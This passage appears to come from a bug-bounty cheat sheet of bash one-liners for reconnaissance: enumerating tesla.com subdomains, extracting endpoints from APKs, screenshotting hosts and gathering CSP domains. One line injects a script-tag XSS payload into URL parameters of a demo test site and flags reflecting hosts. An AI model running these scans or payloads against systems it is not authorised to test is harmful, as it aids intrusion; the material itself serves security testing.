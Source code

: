 ```bash
subfinder -d http://tesla.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```

### XSS without gf
> @HacktifyS

```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

### Extract endpoints from APK files
> @laughface809

```bash
apkurlgrep -a path/to/file.apk
```

### Get Subdomains from IPs

```bash
python3 hosthunter.py <target-ips.txt> > vhosts.txt
```

### webscreenshot

```bash
python webscreenshot.py -i list.txt -w 40
```

### Removes duplicate URLs and parameter combinations

```bash
cat urls.txt |qsreplace -a
```

### Gather domains from content-security-policy: 

```bash
curl -v -silent https://$domain --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
```
